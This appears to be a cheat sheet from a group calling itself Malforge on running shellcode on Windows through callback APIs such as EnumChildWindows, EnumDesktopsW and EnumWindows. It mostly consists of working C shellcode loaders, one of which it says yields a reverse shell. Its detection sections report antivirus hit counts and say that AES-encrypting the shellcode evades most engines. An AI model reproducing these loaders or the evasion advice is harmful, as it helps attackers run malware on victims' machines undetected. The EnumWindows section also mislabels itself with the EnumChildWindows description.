 # Code Execution via Callbacks CheatSheet

## Introduction

This cheat sheet outlines various techniques to execute shellcode on a Windows machine using callback-based methods. It also highlights which techniques are submitted to VirusTotal.

![image](https://github.com/user-attachments/assets/30de2d79-9ae0-4786-a077-f0c44d4b9a06)

---

## Basic Shellcode Execution

Although not based on callbacks, this is the most straightforward method to execute shellcode.

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Payload to launch calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  // truncated for brevity...
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void *my_payload_mem;
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);
  rv = VirtualProtect(my_payload_mem, my_payload_len, PAGE_EXECUTE_READ, &oldprotect);

  if (rv != 0) {
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }

  return 0;
}
```

### Proof of Concept
Executing this EXE yields a reverse shell.

![image](https://github.com/user-attachments/assets/f2b7048b-6a62-496a-bc2e-148161405016)

![image](https://github.com/user-attachments/assets/3084cfec-116d-46db-8572-d8db7e7a1bc5)


### Detection
This approach is easily flagged by AV engines.

![image](https://github.com/user-attachments/assets/88a3957a-29f6-45c5-9a92-ccc465d96f33)

---

## EnumChildWindows Execution

The `EnumChildWindows` API is typically used to list child windows of a given parent window. Malware can abuse this to enumerate open applications or inject shellcode.

### Code Sample

```c
#include <windows.h>
#include <stdio.h>

int main() {
    char shellcode[] = "..."; // calc.exe shellcode

    HANDLE hAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(hAlloc, shellcode, sizeof(shellcode));
    EnumChildWindows((HWND) NULL, (WNDENUMPROC) hAlloc, NULL);
}
```

### Proof of Concept
Executing the binary successfully launches the Calculator.

![image](https://github.com/user-attachments/assets/d1d3a5f5-cca9-4585-bc91-56c50480aaa2)


### Detection

![image](https://github.com/user-attachments/assets/530a7e26-dcd8-46ab-b6cf-d058232ed48f)

Using AES-encrypted shellcode dramatically lowers AV detection rates.

![image](https://github.com/user-attachments/assets/f58a8cf6-a074-4ab2-a293-5bddd52db409)

---

## EnumDesktopsW Execution

The `EnumDesktopsW` API enumerates all desktops in the current window station and is sometimes used by attackers to execute shellcode.

### Code Sample

```c
#include <windows.h>
#include <stdio.h>
#include "wingdi.h"

int main() {
    char shellcode[] = "..."; // calc.exe shellcode

    HANDLE hAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(hAlloc, shellcode, sizeof(shellcode));
    EnumDesktopsW(GetProcessWindowStation(), (DESKTOPENUMPROCW) hAlloc, NULL);
    printf("%d", GetLastError());
    VirtualFree(hAlloc, 0, MEM_RELEASE);
}
```

### Proof of Concept
The code successfully spawns Calculator.

![image](https://github.com/user-attachments/assets/299fa077-cd6a-4252-9105-75e6699c5842)

### Detection
Plain MSFVenom shellcode is flagged by 12 AVs; 

![image](https://github.com/user-attachments/assets/c4418c58-9131-4d23-80c8-5691db43f169)

AES-encrypted versions often evade detection.

![image](https://github.com/user-attachments/assets/2e4de228-ab3a-4928-b9b9-ad48f568f6df)

---

## EnumWindows Execution

EnumChildWindows is a Windows API function that is used to enumerate all child windows of a specified parent window. In malware, it can be used to gather information about the environment in which it is running. For example, malware might use EnumChildWindows to enumerate all open windows and their associated process IDs to identify the applications that are running and to detect any security-related applications, such as antivirus software. Additionally, the malware may use the information gathered through EnumChildWindows to carry out malicious actions, such as injecting code into other processes, stealing data, or modifying system settings.

### Code Sample

```c
#include <windows.h>
#include <stdio.h>

int main() {
    char shellcode[] = "..."; // calc.exe shellcode

    HANDLE hAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(hAlloc, shellcode, sizeof(shellcode));
    EnumWindows((WNDENUMPROC) hAlloc, NULL);
}
```

### Proof of Concept
This method also successfully launches Calculator.

![image](https://github.com/user-attachments/assets/3f0e443e-8ca6-49ca-b697-29c06e5e74ae)


### Detection
Standard shellcode triggers alerts from 15 AVs. 

![image](https://github.com/user-attachments/assets/c4d2d8b9-9fbd-485f-8bfc-a2ded8e34641)

AES encryption reduces this to detection by just two engines

![image](https://github.com/user-attachments/assets/78f00b87-9560-4097-adac-84dac1ca288b)

---

## Conclusion

 I hope you found this article useful — stay tuned for more content!
 
— **Malforge Group**

---

